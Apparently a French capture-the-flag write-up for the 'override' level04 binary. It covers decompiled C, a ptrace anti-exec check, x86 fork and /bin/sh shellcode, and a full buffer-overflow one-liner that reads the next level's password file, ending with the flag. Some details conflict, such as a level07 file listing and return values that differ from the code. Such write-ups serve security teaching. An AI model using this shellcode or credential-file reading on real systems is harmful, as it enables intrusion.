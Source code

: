 # override: [level04]

Observations:
---

#### Détails du profil:
```md
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```

#### Détails du programme:
```sh
-rwsr-s---+ 1 level08 users   11744 Sep 10  2016 level07
```

#### Programme décompilé:
```c
//----- (080486C8) --------------------------------------------------------
int main(int argc, const char **argv, const char **envp)
{
	int stat_loc;
	char s[128];
	int v6;
	int v7;
	int v8;
	__pid_t v9;

	v9 = fork();
	memset(s, 0, sizeof(s));
	v8 = 0;
	stat_loc = 0;
	if ( v9 )
	{
		do
		{
			wait(&stat_loc);
			v6 = stat_loc;
			if ( (stat_loc & 0x7F) == 0 || (v7 = stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
			{
				puts("child is exiting...");
				return 0;
			}
			v8 = ptrace(PTRACE_PEEKUSER, v9, 44, 0);
		}
		while ( v8 != 0x0b );
		puts("no exec() for you");
		kill(v9, 9);
	}
	else
	{
		prctl(1, 1);
		ptrace(PTRACE_TRACEME, 0, 0, 0);
		puts("Give me some shellcode, k");
		gets(s);
	}
	return 0;
}
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>`			| Cette fonction déclare un tableau `s` de **128** octets, et défini ses valeurs à **0**. <br> Ensuite elle fais appel à la fonction `<fork>` créant un processus secondaire. <br> L'identifiant du processus secondaire est gardé dans la variable `v9`. <br> Ensuite une condition vérifie si nous somme dans le processus parent ou enfant. <br><hr style="height: 0px; width: 590px;" /> Si nous sommes dans le processus parent alors la fonction entre dans une boucle qui d'abord attend <br> un changement quelconque du processus enfant et garde sa valeur de retour dans la variable `stat_loc`. <br> Si cette valeur de retour correspond à un arret du processus alors la fonction affiche un message et retourne **1**. <br> La boucle continue tant que la valeur à l'index **44** des données du processus enfant n'est pas égal à `0x0b`. <br> Si la boucle s'arrete alors la fonction affiche un message et tue le processus enfant avec la fonction `<kill>`. <br> <hr style="height: 0px; width: 590px;" /> Sinon si nous somme dans le processus enfant alors la fonction change les propriétés du processus enfant. <br> Tout d'abord pour que le processus parent puisse recevoir un signal en cas de fin de processus. <br> Puis pour que l'acces aux données du processus enfant soit ouvert au processus parent. <br> Pour finir la fonction retourne **0**. |


#### Conclusions:

Nous pouvons injecter du code grace à l'appel à la fonction `<gets>` dans le processus enfant. \
Ecrasant son adresse de retour, nous permettant ainsi de changer l'ordre d'exécution du programme. \
La condition de la boucle dans le processus parent vérifie si le registre `eax` du processus enfant est définie à `0x0b`. \
Il peut donc savoir si le processus s'apprête à exécuter la fonction `<system>`. \
Tuant sur le champs le processus enfant, nous empéchant donc d'exécuter notre code. \
Heureusement nous pouvons contourner cela en exécutant notre code dans un autre processus.

----
Résolution:
----
Grace à l'appel à la fonction `<gets>`, nous pouvons effectuer un débordement de mémoire, \
nous permettant d'injecter une fonction exécutant `<system>`. \
Mais au début de cette fonction nous allons d'abord ajouter un appel à la fonction `<fork>`, \
créant ainsi un nouveau processus sur lequel le processus parent ne pourras interférer. \
Nous allons ensuite pouvoir écraser l'addresse de retour de la fonction `<main>`. \
Ce faisant le processus enfant pourras exécuter le code injecté.

La commande débuteras avec le code de la fonction d'appel à `<fork>`, suivit du code la fonction d'appel à `<system>`. \
Ensuite nous ajoutons **125** caractères de bourrage nous permettant d'atteindre l'addresse de retour de la fonction `<main>`. \
Puis l'addresse du tableau `s` pour que le programme l'exécute en retournant.

> Le début de notre commande nous permet d'enlever l'environnement \
> Nous permettant ainsi de calculer les addresses mémoire plus facilement. \
> Car l'environnement décal la pile mémoire.

#### Injection:
```asm
# Cette fonction appelle <fork>:

0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  b0 02                   mov    al,0x2
5:  cd 80                   int    0x80
```
```asm
# Cette fonction appelle <system> avec '/bin/sh' en paramètre:

0:  6a 0b                   push   0xb
2:  58                      pop    eax
3:  31 f6                   xor    esi,esi
5:  56                      push   esi
6:  68 2f 2f 73 68          push   0x68732f2f
b:  68 2f 62 69 6e          push   0x6e69622f
10: 89 e3                   mov    ebx,esp
12: 31 c9                   xor    ecx,ecx
14: 89 ca                   mov    edx,ecx
16: cd 80                   int    0x80
```

#### Commande:

```bash
echo $(echo $(unset $(env | cut -d= -f1); (/usr/bin/python -c "print('\x31\xc0\x50\xb0\x02\xcd\x80\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a'*125 + '\xff\xff\xdd\xa0'[::-1])" ; /bin/echo '/bin/cat /home/users/level05/.pass') | /home/users/level04/level04))
```

#### Flag: `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`